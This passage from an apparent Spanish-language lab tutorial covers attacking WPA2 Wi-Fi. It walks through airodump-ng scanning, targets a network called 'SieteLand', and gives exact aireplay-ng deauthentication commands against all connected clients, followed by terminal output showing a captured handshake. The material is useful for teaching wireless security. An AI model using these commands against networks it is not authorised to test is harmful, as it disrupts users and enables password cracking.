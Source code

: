   ```bash
  ??:1?:3?:6?:03:E8  ??:1?:7?:0?:53:7E  -71    1e- 1    135      125 
  ??:F?:3?:1?:13:F8  ??:8?:9?:0?:B4:59   -1    1e- 0      0        1 
  ??:F?:3?:1?:13:F8  ??:9?:7?:0?:11:40  -73    0 - 1e     0       12 
  ??:5?:1?:6?:68:68  ??:6?:9?:5?:9C:B4  -73    0 - 1      0        1 
  ??:5?:1?:E?:57:C8  ??:2?:9?:7?:CB:85  -77    0 - 1      0        2        
  ```

  Una vez la teniendo las redes wifi listadas podemos observar:
  - El CH que es el canal por donde viajan los paquetes
  - BSSID que representa la MAC del router
  - PWR que indica lo lejos o cerca que esta la red wifi
  - ENC la encriptación 
  - CIPHER el tipo de cifrado 
  - ESSID indica el nombre de la red wifi

  Solo nos centraremos en la red objetivo la que es "SieteLand"

  ```bash
  BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

  B4:1C:30:6C:03:E8  -41      246       76    0   1   65   WPA2 CCMP   PSK  SieteLand
  ```

### LANZANDO UN ATAQUE DEAUTH PARA OBTENER EL HANDSHAKE
- Ejecutamos lo siguiente:
  
  - Primera terminal:
  ```bash
  airodump-ng wlan0 -c 1 -w captura --essid SieteLand 
  ```
    - -c indica el canal.
    - w guardar la captura del handshake.
    - --essid el nombre de la red wifi, tambien se podria filtar por el bssid.
  - Segunda terminal:
  ```bash
  sudo aireplay-ng  -0 0 -e SieteLand -c FF:FF:FF:FF:FF:FF wlan0   
  ```
    - -0 indica el tipo de ataque que realizaremos que en nuestro caso es un ataque deauth y podemos colocar una determinada cantidad de paquetes. En nuestra caso vamos a colocarle 0 porque pararemos cuando obtengamos el handshake. 
    - -e es el paramatro por la cual le pasas la red wifi objetivo 
    - -c La mac del cliente que esta conectado al que se desea desauntenticar, al poner FF:FF:FF:FF:FF:FF le estamos diciendo que desauntentique a todos los clientes conectados a la red.

  - Terminal 1.
  
  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
  Sie7e>$ sudo airodump-ng wlan0 -c 1 -w captura --essid SieteLand  
  
  CH  1 ][ Elapsed: 20 s][ 0000-00-00 00:00 ][ WPA handshake: FC:5A:1D:61:68:68]
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

  B4:1C:30:6C:03:E8  -13  96    15011     2273    0   1   65   WPA2 CCMP   PSK  SieteLand
                                                                                               
  BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
                                                                                                     
  (not associated)   2C:2B:F9:2E:14:64  -55    0 - 1      0       32         ??????AR_57C0
  B4:1C:30:6C:03:E8  74:15:75:0D:53:7E  -15    1e- 1    307     4056  EAPOL  
  ```
